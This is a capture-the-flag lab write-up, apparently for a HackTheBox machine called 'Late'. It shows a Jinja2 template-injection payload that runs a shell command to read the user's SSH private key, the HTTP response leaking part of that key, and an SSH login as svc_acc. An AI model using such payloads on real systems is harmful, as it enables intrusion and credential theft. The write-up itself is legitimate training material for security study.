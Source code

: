 Play around with the command execution for a bit and leak the user's SSH private key. Use it to get a shell
```python
# payload
{{ namespace.__init__.__globals__.os.popen('''cat ~/.ssh/id_rsa''').read() }}
```
- Note the ''' allows for more commands to be used than only the single ticks
- Also note, if box resets and there is no private key there, the ssh oneliner I tried may have been what put it there
```ssh-keygen -t rsa -f "$HOME/.ssh/id_rsa" -P "" && cat ~/.ssh/id_rsa.pub```
Output from payload:
```http
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Wed, 11 May 2022 03:48:50 GMT
Content-Type: text/plain; charset=utf-8
Content-Length: 1688
Connection: close
Content-Disposition: attachment; filename=results.txt
Last-Modified: Wed, 11 May 2022 03:48:50 GMT
Cache-Control: no-cache
ETag: "1652240930.4815707-1688-367136290"

<p>-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAqe5XWFKVqleCyfzPo4HsfRR8uF/P/3Tn+fiAUHhnGvBBAyrM
HiP3S/DnqdIH2uqTXdPk4eGdXynzMnFRzbYb+cBa+R8T/nTa3PSuR9tkiqhXTaEO
bgjRSynr2NuDWPQhX8OmhAKdJhZfErZUcbxiuncrKnoClZLQ6ZZDaNTtTUwpUaMi
/mtaHzLID1KTl+dUFsLQYmdRUA639xkz1YvDF5ObIDoeHgOU7rZV4TqA6s6gI7W7
d137M3Oi2WTWRBzcWTAMwfSJ2cEttvS/AnE/B2Eelj1shYUZuPyIoLhSMicGnhB7
7IKpZeQ+MgksRcHJ5fJ2hvTu/T3yL9tggf9DsQIDAQABAoIBAHCBinbBhrGW6tLM
fLSmimptq/1uAgoB3qxTaLDeZnUhaAmuxiGWc
```
SSH shell & user.txt
```bash
ssh -i late svc_acc@10.10.11.156

svc_acc@late:~$ ls
app  user.txt
svc_acc@late:~$
```
